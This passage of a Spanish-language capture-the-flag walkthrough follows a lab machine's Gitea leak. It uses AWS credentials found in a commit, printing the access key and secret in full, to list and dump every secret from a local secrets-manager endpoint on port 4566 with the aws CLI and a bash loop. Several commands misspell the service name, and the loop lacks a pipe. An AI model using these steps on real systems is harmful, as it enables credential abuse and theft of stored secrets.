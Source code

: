 Aqui tampoco vemos nada interessante. Miramos si tenemos binarios installados que corresponden a lo que hemos encontrado en el **GITEA**.

```bash
which aws
```

Vemos que tenemos **aws** installado y en un commit del repository `Log_Manager` podemos ver credenciales con un secret contra un endpoint en el puerto 4566.

```bash
netstat -nat | grep "4566"

aws help
aws secrectsmanager help
aws --endpoint-url="http://127.0.0.1:4566" secrectsmanager list-secrets
```

Aqui vemos que tenemos primero que configurar el commando aws.

```bash
aws configure

AWS Access Key ID [None]: AKIAIUEN3QWCPSTEITJQ
AWS Secret Access Key [None]: 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
Default region name [None]: eu
Default option format [None]:

aws --endpoint-url="http://127.0.0.1:4566" secrectsmanager list-secrets
```

Aqui ya podemos listar los secretos y recuperamos la data interesante

```bash
aws --endpoint-url="http://127.0.0.1:4566" secrectsmanager list-secrets | grep "ARN"
aws --endpoint-url="http://127.0.0.1:4566" secrectsmanager list-secrets | grep "ARN" | grep -v "RotationLambdaARN"
aws --endpoint-url="http://127.0.0.1:4566" secrectsmanager list-secrets | grep "ARN" | grep -v "RotationLambdaARN" | grep -oP '".*?"'
aws --endpoint-url="http://127.0.0.1:4566" secrectsmanager list-secrets | grep "ARN" | grep -v "RotationLambdaARN" | grep -oP '".*?"' | grep -v "ARN"
aws --endpoint-url="http://127.0.0.1:4566" secrectsmanager list-secrets | grep "ARN" | grep -v "RotationLambdaARN" | grep -oP '".*?"' | grep -v "ARN" | tr -d '"'
```

Ahora que tenemos un listado de **ARN** podemos usar del commando `get-secret-value` para cada **ARN**.

```bash
#!/bin/bash

aws --endpoint-url="http://127.0.0.1:4566" secrectsmanager list-secrets | grep "ARN" | grep -v "RotationLambdaARN" | grep -oP '".*?"' | grep -v "ARN" | tr -d '"' while read aws_secret_key; do
    echo -e "\n[+] Mostrando secreto con el secret_key $aws_secret_key:\n"
    aws --endpoint-url="http://127.0.0.1:4566" secretsmanager get-secret-value --secret-id "$aws_secret_key"
done
```
